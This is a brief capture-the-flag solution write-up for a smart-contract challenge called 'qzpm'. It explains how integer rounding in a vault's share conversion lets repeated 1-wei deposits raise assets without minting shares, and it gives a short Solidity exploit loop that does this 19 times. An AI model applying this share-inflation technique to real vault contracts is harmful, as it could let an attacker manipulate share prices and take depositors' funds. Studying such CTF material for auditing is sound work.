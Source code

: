 # qzpm - Solution

## Find the vulnerability

The objective here is `self._convertToAssets(1) > 20` that is a share is more than 20 assets in value. To achieve this we certainly must deposit somethng so start from `deposit` function that calls `_convertToShares` with `_ceil` false.

So `return total_shares * assets / total_assets` will be `1 * assets / 2`. It means that depositing 1 wei will increment assets but not shares because `1 * 1 / 2 = 0`. Doing this 19 times and bingo!

`_convertToAssets` will return `return shares * (total_assets + 2) / (total_shares + 1)` that is `(19 + 2) / (0 + 1)`.

## Exploit the contract

```solidity
assetToken.faucet(address(this), type(uint256).max);
assetToken.approve(address(vyperSecureumCTF), type(uint256).max);

for (uint256 i = 0; i < 19; i++) {
    vyperSecureumCTF.deposit(1, address(this));
}
```
